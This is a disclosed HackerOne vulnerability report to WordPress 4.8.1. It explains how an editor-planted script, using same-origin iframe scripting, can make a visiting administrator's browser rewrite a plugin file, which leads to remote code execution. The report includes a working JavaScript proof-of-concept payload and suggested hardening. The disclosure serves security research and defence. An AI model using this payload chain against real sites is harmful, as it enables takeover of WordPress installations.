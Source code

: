 # Wordpress 4.8.1 - Rogue editor leads to RCE. And the risks of same origin frame scripting in general

## Report Details
- **Report ID**: 263718
- **URL**: https://hackerone.com/reports/263718
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-08-27T01:55:26.996Z
- **Disclosed**: 2017-10-04T18:53:41.370Z

## Reporter
- **Username**: skansing
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
#Background
This report is mainly about how a user with the role of editor, expectedly can post unfiltered content
but unexpectedly can pwn an administrator with a RCE chain due to same origin frame scripting.

Secondarily the report wants to highlight the technique used and the severity of it.

#Description
During my research I found that a XSS can, in the majority of cases, trivially be turned
into a RCE, by abusing same origin frame scripting in the XSS payload.

I demonstrated this "technique" in #263058 and #263109 (no need to read, there a POC in this report).
It can be used to do *almost* any action from the victims perspective, like adding an administrator or editing a plugin file.
This adds to the severity of XSS in core wp, themes and especially plugins.

It affect the understanding of the user role 'editor' and the ability to post unfiltered content
https://make.wordpress.org/core/handbook/testing/reporting-security-vulnerabilities/#why-are-some-users-allowed-to-post-unfiltered-html

An editor is a copy-paste and a administrator visit from RCE or performing any action.
Editors users / accounts them self are more attractive for cracking and social engineering.
Administrators are not aware of the risk associated with giving a user editor role or being a editor.
All future reports with XSS can be escalated to RCE resulting in increased severity.


# POC
This POC explores a rogue editor planting payload to RCE.

- Login as editor
- Upload a .html or plant the POC payload in content
- Login as administrator visit a link containing the payload

# POC Payload
The payload opens the plugin editor, edits a file and redirects to the edited file afterwards

```
<iframe src="http://127.0.0.1:8090/wp-admin/plugin-editor.php?file=hello.php" style="opacity:0">
</iframe>
<script>
setTimeout(function() {
  var p = "<?php phpinfo();"
  // full read/write control over dom, do anything(!)
  var d = document.querySelector("iframe").contentWindow.document;
  var c = d.querySelector("#newcontent")
  var s = d.querySelector("#submit")
  c.value = p
  s.click();
}, 2000);
setTimeout(function() {
  window.location.href = "http://127.0.0.1:8090/wp-content/plugins/hello.php"
}, 4000);
</script>
```

# Suggested Fix
the role editor should loose all privileges that can lead to scripting

consideration on hardening could be doing a BC break and switching to `x-frame-options: deny`.
However that can by bypassed by using `window.open(...)` instead of an iframe, but requires
the victim to click on the page after opening it. so this will only harden a bit.

another hardening option could be requiring password on critical actions such as
plugin install, file edit, etc. it will however have an impact on accessibility and
it might take time to find all the loop holes.


## Attachments
No attachments
